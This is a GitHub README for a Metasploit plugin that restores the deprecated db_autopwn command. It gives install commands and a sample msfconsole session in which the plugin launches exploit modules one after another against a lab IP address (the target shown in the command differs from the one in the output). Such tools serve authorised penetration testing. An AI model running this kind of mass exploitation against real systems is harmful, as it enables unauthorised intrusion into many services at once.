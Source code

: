 # metasploit-autopwn

metasploit plugin for easy exploit & vulnerability attack.<br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
### 1. Clone this repo or download "db_autopwn.rb" file<br>
- clone this repository

```
#> git clone https://github.com/hahwul/metasploit-autopwn
```

<br>
or <br>
<br>

- download db_autopwn.rb file in metasploit plugin directory

```
#> wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
```

### 2. Move dB_autopwn.rb file into metasploit plugin directory

```
#> cd metasploit-autopwn
```
```
#> cp db_autopwn.rb /usr/share/metasploit-framework/plugins
```
or (install path)
```
#> cp db_autopwn.rb /opt/metasploit-framework/plugins
```

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



